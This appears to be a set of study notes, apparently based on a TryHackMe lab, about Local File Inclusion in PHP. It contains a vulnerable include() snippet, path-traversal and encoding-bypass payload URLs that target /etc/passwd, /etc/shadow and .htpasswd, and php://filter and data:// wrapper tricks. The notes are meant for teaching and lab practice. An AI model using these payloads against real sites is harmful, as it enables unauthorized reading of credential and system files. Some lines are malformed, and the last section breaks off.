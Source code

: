 ### How does an LFI Attack Work

A Local File Inclusion can occur when an application includes a file as user input without properly validating it. This flaw enables an attacker to include malicious files by manipulating the input.

The following vulnerable PHP code could lead to LFI:

`https://website-example.com/?page=filename.php`

`https://website-example.com/?page=../../../../etc/test.txt`

`http://www.example_target_website.com/download.php?file=document.html`

`http://www.example_target_website.com/download.php?file=../../../../etc/passwd`

`https://example-vulnerable-website.com/?module=contact.php`

`https://example-vulnerable-website.com/?module=/etc/passwd`

`https://example-vulnerable-website.com/?module=uploads/image123.gif`

`https://example-vulnerable-website.com/?helpfile=login.txt`

`https://example-vulnerable-website.com/?helpfile=../secret/.htpasswd`

`https://example-vulnerable-website.com/?download=brochure.pdf`

`https://example-vulnerable-website.com/?download=../include/connection.php`

## LFI

An LFI vulnerability is found in various web applications. As an example, in the PHP, the following functions cause this kind of vulnerability:

   `include
   require
   include_once 
   require_once`

The following is an example of PHP code that is vulnerable to LFI.

<?PHP
	include($_GET["file"]);

?>

The PHP code above uses a GET request via the URL parameter file to include the file on the page. The request can be made by sending the following HTTP request: http://example.thm.labs/index.php?file=welcome.txt to load the content of the welcome.txt file that exists in the same directory

`/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdlin`

`http://example.thm.labs/page.php?file=/etc/passwd 
http://example.thm.labs/page.php?file=../../../../../../etc/passwd
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd`

### The PHP filter wrapper is used in LFI to read the actual PHP page content.
	we can use the PHP filter to display the content of PHP files in other encoding formats such as `base64` or `ROT13`.

`http://example.thm.labs/page.php?file=php://filter/resource=/etc/passwd`

### We can read the index.php file using a PHP filter; we get errors because the web server tries to execute the PHP code. To avoid this, we can use a PHP filter while base64 or ROT13 encoding the output as follows:

`http://example.thm.labs/page.php?file=filter/read=string.rot13/resource=/etc/passwd 

http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd'

###  eg. ``echo "AoC3 is fun!" | base64 QW9DMyBpcyBmdW4hCg==`
        `echo "QW9DMyBpcyBmdW4hCg==" | base64 --decode AoC3 is fun!`

### Now we can include our base64 data into the vulnerable page as follows,
    `http://example.thm.labs/page.php?file=data://text/plain;base64,QW9DMyBpcyBmdW4hCg==`

### we provide a vulnerable web application that logs users' requests into a log file to which the webserver user has access. Once we log into the web application, we can visit the log page at 
`https://LAB_WEB_URL.p.thmlabs.com/logs.php.`            
            

